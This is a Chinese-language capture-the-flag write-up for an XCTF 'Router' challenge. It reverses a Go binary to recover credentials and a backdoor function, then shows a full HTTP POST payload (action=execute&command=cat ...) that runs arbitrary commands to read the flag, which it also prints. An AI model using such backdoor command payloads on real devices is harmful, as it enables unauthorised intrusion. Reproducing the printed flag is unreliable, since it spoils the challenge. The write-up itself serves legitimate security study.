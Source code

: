 # Router

## 思路分析

> 根据题目提示,下载附件,是一个elf文件,strings之后发现这是一个go打包的程序,这道题考察的就是二进制逆向了.执行这个二进制程序后,发现会生成一个settings.config文件,但是发现无法直接读取,在网页上,进行fuzz,发现也存在一个export.php页面,访问也可以得到一个无法直接读取的settings.config页面,考虑这是该路由器的配置文件.

> 扔进IDA进行分析,使用ida python脚本恢复go的符号表,脚本地址: https://github.com/sibears/IDAGolangHelper/

> 恢复符号表后,在string中查找config,发现一个字符串,应该就是config文件加载完成后的提示,直接跟进去,找到调用位置,4013BD

> 将文件使用gdb进行调试,在0x4013BD处下个断点,然后运行,栈中找到用户名和密码都为router

> 发现了一个名为main_Backdoor的函数,页面登陆后,有一些功能,一些数据包POST了action参数,可以利用这个backdoor执行任意命令

## payload

```
POST /4f86ad02c5734e3ffdb3371a919a86cd HTTP/1.1
Host: 61.147.171.105:57262
Content-Length: 46
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://61.147.171.105:57262
Referer: http://61.147.171.105:57262/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=w4z0he0g0vta9fexmjey6agba6giitan
Connection: close

action=execute&command=cat /home/xctf/bin/flag
```

## flag

> cyberpeace{5163c539d3d88416b0578bb9e6ea5db1}

## 参考

> https://www.freebuf.com/articles/web/239385.html